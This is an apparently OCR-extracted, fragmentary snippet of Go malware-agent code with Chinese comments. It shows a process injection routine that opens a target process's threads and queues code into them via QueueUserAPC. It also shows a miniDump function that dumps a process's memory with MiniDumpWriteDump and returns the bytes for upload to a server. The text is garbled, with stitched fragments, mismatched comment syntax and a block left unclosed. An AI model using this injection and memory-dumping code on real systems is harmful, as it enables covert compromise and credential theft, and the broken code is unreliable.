```
			if x == 1 {
				// 当使用"spray all threads"技术时，不要排队到主线程，经常导致进程崩溃
				return errors.New("the process only has 1 thread; APC not queued")
			}
# 初始化变量 i 为 false
i = false
# 跳出循环
break
# 如果调用 Thread32Next 出现错误并且错误信息不是 "The operation completed successfully."，则返回错误信息
else if errThread32Next.Error() != "The operation completed successfully." {
    return errors.New("Error calling Thread32Next:\r\n" + errThread32Next.Error())
}
# 如果线程的所有者进程 ID 等于给定的进程 ID
if t.th32OwnerProcessID == pid {
    # 如果 x 大于 0
    if x > 0 {
        # 调用 OpenThread 函数打开线程
        tHandle, _, errOpenThread := OpenThread.Call(THREAD_SET_CONTEXT, 0, uintptr(t.th32ThreadID))
        # 如果打开线程出现错误并且错误信息不是 "The operation completed successfully."，则返回错误信息
        if errOpenThread.Error() != "The operation completed successfully." {
            return errors.New("Error calling OpenThread:\r\n" + errOpenThread.Error())
        }
        # 调用 QueueUserAPC 函数将用户模式异步过程调用（APC）插入到线程的 APC 队列中
        _, _, errQueueUserAPC := QueueUserAPC.Call(addr, tHandle, 0)
        # 如果调用 QueueUserAPC 出现错误并且错误信息不是 "The operation completed successfully."，则返回错误信息
        if errQueueUserAPC.Error() != "The operation completed successfully." {
            return errors.New("Error calling QueueUserAPC:\r\n" + errQueueUserAPC.Error())
        }
        # x 自增
        x++
        # 调用 CloseHandle 函数关闭线程句柄
        _, _, errCloseHandle := CloseHandle.Call(tHandle)
        # 如果调用 CloseHandle 出现错误并且错误信息不是 "The operation completed successfully."，则返回错误信息
        if errCloseHandle.Error() != "The operation completed successfully." {
            return errors.New("Error calling thread CloseHandle:\r\n" + errCloseHandle.Error())
// 如果进程句柄无效，则返回错误
if pHandle == 0 {
    return errors.New("Invalid process handle")
}

// 尝试使用 Windows MiniDumpWriteDump API 操作来生成进程的转储文件
// 并将转储文件的原始字节作为服务器上传返回
// 如果操作失败，则返回错误信息
// 在转储过程中触及磁盘，在操作系统默认临时目录或提供的临时目录中
func miniDump(tempDir string, process string, inPid uint32) (map[string]interface{}, error) {
    var mini map[string]interface{}
    mini = make(map[string]interface{})
    var err error

    // 在执行 miniDump 功能之前，确保临时目录存在
    if tempDir != "" {
        d, errS := os.Stat(tempDir)
        if os.IsNotExist(errS) {
            return mini, fmt.Errorf("提供的目录不存在：%s", tempDir)
        }
        if d.IsDir() != true {
            return mini, fmt.Errorf("提供的路径不是有效的目录：%s", tempDir)
        }
    } else {
        tempDir = os.TempDir()
    }

```